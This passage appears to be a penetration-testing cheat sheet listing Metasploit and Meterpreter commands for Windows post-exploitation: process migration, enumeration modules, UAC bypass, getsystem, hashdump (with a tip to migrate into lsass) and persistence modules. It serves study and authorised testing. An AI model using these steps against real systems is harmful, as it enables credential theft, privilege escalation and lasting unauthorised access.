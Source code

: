`meterpreter>  show_mount`

`meterpreter>  ps`

`meterpreter>  migrate $process_id` -> to migrate to a process with higher privileges

`meterpreter>  background`

## Post-Exploitation Windows

## Post-Exploitation-Modules
`msf6> search migrate` -> you can use any module you like for post-exploitation

`msf6> search win_privs` -> to enumerate privilege escalation

`msf6> search enum_logged_on`

`msf6> search checkvm` -> to check if target on vm

`msf6> search enum_applications` -> enum installed application on target

`msf6> search enum_av platform:windows type:post` -> check for firewall

`msf6> search search enum_computer`

`msf6> search search enum_patches`

`msf6> search enum_shares`

`msf6> search *enum*` -> show all enumeration modules

`msf6> search rdp platform:windows` -> use any module you like, you can try all of them



## Bypass UAC
`msf6> search bypassuac`

`msf6> search bypassuac_injection`

`meterpreter> getsystem`

`meterpreter> hashdump`

if you can not get the hashdump try to migrate to another process like lsass or explorer 

## Mimikatz and kiwi
already explained before

## Pass the hash
already explained before

## Persistence 
`search platform:windows persistence`

`search platform:windows persistence_service` -> if you kill all sessions and run the handler(same payload, port), you will get the session again
